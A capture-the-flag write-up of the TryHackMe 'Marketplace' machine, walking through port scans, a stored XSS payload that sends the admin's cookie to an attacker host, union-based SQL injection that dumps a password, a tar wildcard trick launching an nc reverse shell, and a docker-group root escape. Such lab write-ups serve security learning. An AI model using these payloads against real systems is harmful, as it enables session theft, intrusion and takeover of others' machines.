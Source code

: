 ```yaml
---
title: Marketplace tryhackme writeup
published: true
---
```


Today I bring you the writeup of [marketplace](https://tryhackme.com/room/marketplace), a tryhackme machine focused on web exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP
```

With -p- we indicate that we want it to look at all ports and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p22,80,32768 --min-rate 5000 IP
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escaneo_2.png)

We see that we get the robots.txt with /adminm then we will enter

We investigate ports 80 and 32768 and go to exactly the same web, so we will skip port 32768.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/web_home.png)

If we go to /admin it tells us this

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin.png)

We are going to register a new account to be able to see the product options and so on.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/registrar.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/logeo.png)

Let's enter a product and click on the two options below, the one to report the product and the one to write to the product creator.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/producto.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensage_creador.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_mandado.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/reportar_producto.png)

When reporting we get a message that the admin has checked the product; we have an option to create a product, we go there.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/mensaje_despues_de_reportar_en_messages.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/new_listing.png)

Let's check if the creation of a product has xss and we could try to steal cookies from the admin when checking a report

```shell
<script>alert(1)</script>
<script>alert(2)</script>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nuevo_producto_con_xss_prueba.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_1_ok.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/xss_2_ok.png)

We see that it is vulnerable, we are going to create another product to steal the cookies, but first we are going to open a python server to get them.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/python_server_para_xss_cookies_al_reportar.png)

Now to make the product for the cookies.

```shell
<img src=x onerror=this.src="http://IP:Port/?c="+document.cookie>
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/Producto_roba_cookies.png)

When we enter the product and hit report we will get the admin cookies, now let's change ours for those and go to /admin.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/cookie_admin.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/panel_admin_con_cookies.png)

We are going to enter in some user that we get.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/admin_user_1.png)

If we see the url we can try a sqli.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/prueba_sqli.png)

It seems vulnerable, let's try to exploit it, with sqlmap I couldn't because the admin cookie changes every x time so you will have to get it again.

Let's see how many fields you have to write to do our tests.

```shell
user=1 order by 4-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/numero+de+columnas.png)

Now let's try to get the databases.

```shell
user=0 union select 1,group_concat(0x7c,schema_name,0x7c),3,4 from information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/databases.png)

We are interested in the database marketplace, now let's take out the tables it has.

```shell
user=0 union select 1,group_concat(0x7c,table_name,0x7c),3,4 from information_schema.tables where table_schema='marketplace'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/tablas.png)

We see a messages table that seems quite interesting since the others are in the admin panel itself, at least, apparently.

```shell
user=0 union select 1,group_concat(0x7c,column_name,0x7c),3,4 from information_schema.columns where table_name='messages'-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/nombre+de+columnas+de+tabla+mensajes.png)

Let's take a look at the message_content to see if it has anything interesting.

```shell
user=0 union select 1,group_concat(0x7c,message_content,0x7c),3,4 from marketplace.messages-- -
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/contenido+de+los+mensajes,+donde+hay+ssh+password.png)

We see a password, and we have several usernames of accounts created before ours which are:
system
michael
jake

Let's try to connect via ssh to those accounts.

```shell
ssh jake@IP
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/shell+con+jake.png)

Let's look at the sudo permissions you have.

```shell
sudo -l
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/sudo+-l+jake.png)

We see that you have permissions with the user michael in a script, if we read that script we see that it makes a backup of everything in the /opt/backups folder.

To escalate privileges to michael we can use the [wildcards](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks#tar) of tar so that we get a reverse when we make the backup.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/abrimos%20puerto.png)

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
chmod 777 backup.tar
sudo -u michael /opt/backups/backup.sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/comandos_movimiento_lateral.png)

We get the reverse and we are already michael.

```shell
id
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/grupo+docker+para+escalar.png)

We see that it is inside the [docker](https://gtfobins.github.io/gtfobins/docker/#shell) group, let's use that to escalate privileges.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/marketplace_writeup/escalada+a+root.png)

And that's all! thanks for reading.
